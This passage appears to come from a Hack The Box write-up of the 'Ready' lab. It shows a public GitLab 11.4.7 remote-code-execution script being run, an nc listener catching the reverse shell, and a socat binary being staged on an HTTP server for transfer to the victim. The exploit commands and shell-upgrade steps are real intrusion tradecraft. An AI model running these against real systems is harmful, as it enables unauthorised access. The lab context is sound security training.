 Lets find some CVE for this version:
* https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/

Also find some exploits:
* https://www.exploit-db.com/exploits/49334
* https://www.exploit-db.com/exploits/49263
* https://github.com/dotPY-hax/gitlab_RCE *<-- we will use it*

With first and second scripts somethimg going wrong, but third python script runs very well.
So download it to our host and run.
```
┌──(root💀kali)-[/home/kali/HTB/Ready]
└─# python3 rce_gitlab.py http://10.10.10.220:5080/ 10.10.14.162
Gitlab Exploit by dotPY [insert fancy ascii art]
registering mQXh62U4sU:jCZjeF67za - 200
Getting version of http://10.10.10.220:5080/ - 200
The Version seems to be 11.4.7! Choose wisely
delete user mQXh62U4sU - 200
[0] - GitlabRCE1147 - RCE for Version <=11.4.7
[1] - GitlabRCE1281LFIUser - LFI for version 10.4-12.8.1 and maybe more
[2] - GitlabRCE1281RCE - RCE for version 12.4.0-12.8.1 - !!RUBY REVERSE SHELL IS VERY UNRELIABLE!! WIP
type a number and hit enter to choose exploit: 0
Start a listener on port 42069 and hit enter (nc -vlnp 42069)
registering ih5Ml80b7q:M6qTVJpRXu - 200
hacking in progress - 200
delete user ih5Ml80b7q - 200
```

And we get a reverse shell
```
┌──(root💀kali)-[/home/kali/HTB/Ready]
└─# nc -nlvp 42069                                                                                                                                                     1 ⨯
listening on [any] 42069 ...
connect to [10.10.14.162] from (UNKNOWN) [10.10.10.220] 34446
bash: cannot set terminal process group (502): Inappropriate ioctl for device
bash: no job control in this shell
git@gitlab:~/gitlab-rails/working$ 
```

Now I want to upgrade my reverse shell. There is a very good article about this [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat). I wiil use socat.

1. We need to install socat on our victim host.

Download socat to our kali:
```
┌──(root💀kali)-[~]
└─# wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat    
```

Run simple hhtp web-server
```
┌──(root💀kali)-[~]
└─# python3 -m http.server 9191                                                                        
Serving HTTP on 0.0.0.0 port 9191 (http://0.0.0.0:9191/) ...
```
